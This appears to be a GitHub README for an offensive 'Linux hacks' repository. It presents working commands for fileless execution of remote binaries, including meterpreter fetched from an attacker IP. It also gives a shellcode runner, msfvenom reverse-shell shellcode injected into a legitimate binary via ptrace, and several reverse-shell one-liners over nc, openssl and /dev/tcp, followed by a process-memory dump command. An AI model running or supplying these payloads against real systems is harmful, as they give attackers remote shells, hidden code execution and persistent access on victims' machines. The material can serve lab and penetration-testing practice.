 # Linux hacks
A collection of mostly security-related hacks for Linux operating systems. It is supposed to show that, while everyone is locking down their PowerShell and .NET in the Windows world, Linux is pretty much an attackers playground and is _not at all a more secure operating system_ (at least not by default).

## [fileless.py](fileless.py)
Uses python to fetch a binary via http(s), write it to an in-memory file and execute it. For example to run the latest version of linpeas with all checks enabled you can just enter the following in any bash-compatible terminal:
```bash
python <(curl -s https://raw.githubusercontent.com/tav-r/Linux-hacks/main/fileless.py) https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -a
```
of course this is pointless since you could also just run
```bash
bash <(curl -s https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) -a
```
but maybe something like this?
```bash
FORK=1 python <(curl -s http://10.10.14.3/fileless.py) http://10.10.14.3/meterpreter
```

## [shellcode.py](shellcode.py)
Run shellcode from command line. First you need some base64-encoded shellcode:
```bash
nasm -f elf64 -o /tmp/shellcode.o shellcode.asm; ld -o /tmp/shellcode /tmp/shellcode.o; rm /tmp/shellcode.o
printf $(objdump -d /tmp/PIC_binary | egrep '^ ' | cut -f2 | sed -r -e 's/([0-9,a-f]{2})/\\x\1/g' -e 's/ //g' | tr -d '\n') | base64 | tr -d '\n'; echo; rm /tmp/shellcode
```
now we can run it (this simply spawns `/bin/sh`):
```bash
python shellcode.py McBIu9GdlpHQjJf/SPfbU1RfmVJXVF6wOw8F
```
of course we could do some more interesting stuff with this, like for example:
```bash
FORK=1 python <(curl 10.10.14.3/shellcode.py) $(curl --output - 10.10.14.3/shellcode.bin | base64 | tr -d '\n')
```

### [hide_in_image.py](hide_in_image.py)
This script forks and lets the child call `ptrace` to let the parent process trace itself. After the child loaded a given binary using `execv`, the parent replaces the code at the entry point with the given shellcode and detaches. This is essentially an alternative way to run shellcode.
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 | base64 | tr -d '\n'  # ailYmWoCX2oBXg8FSJdIuQIAAbt/AAABUUiJ5moQWmoqWA8FagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU=
python3 hide_in_image.py /usr/bin/top ailYmWoCX2oBXg8FSJdIuQIAAbt/AAABUUiJ5moQWmoqWA8FagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU=
```

## fancy reverse shells and backdoors
```bash
# classic
mkfifo /tmp/p;nc 10.10.14.3 8888 </tmp/p | /bin/bash > /tmp/p;rm /tmp/p
# encrypted using openssl cli, handy if netcat not installed. Server has to use something like ncat --ssl -lvp ...
mkfifo /tmp/p;openssl s_client -quiet 10.10.14.3:8443 2>/dev/null < /tmp/p|bash>/tmp/p;rm /tmp/p
# tunneling over SSH (server listening on localhost:8080)
ssh -fN -L48924:127.0.0.1:8080 10.10.14.3;/bin/bash -l > /dev/tcp/localhost/48924 0<&1 2>&1
```

## forensics and reverse engineering
```bash
# dump all process memory including shared libraries etc., copy mapping info and archive everything.
# must be run as root (other users don't seem to be allowed to read memory)
 export PID=107136;export OUTDIR=$(mktemp -d);cat /proc/$PID/maps | cut -d" " -f1 | awk -F'-' '{print "dd if=/proc/$PID/mem of=${OUTDIR}/${PID}_"$1".dump bs=1 skip=$(printf %u 0x"$1") count=$((0x"$2"-0x"$1"))"}' | xargs -I DIFF bash -c "DIFF";cp /proc/$PID/maps $OUTDIR/maps;cd $OUTDIR;ls -1|tar cvzf dump_$PID.tar.gz --files-from=/dev/stdin;rm *.dump maps
```
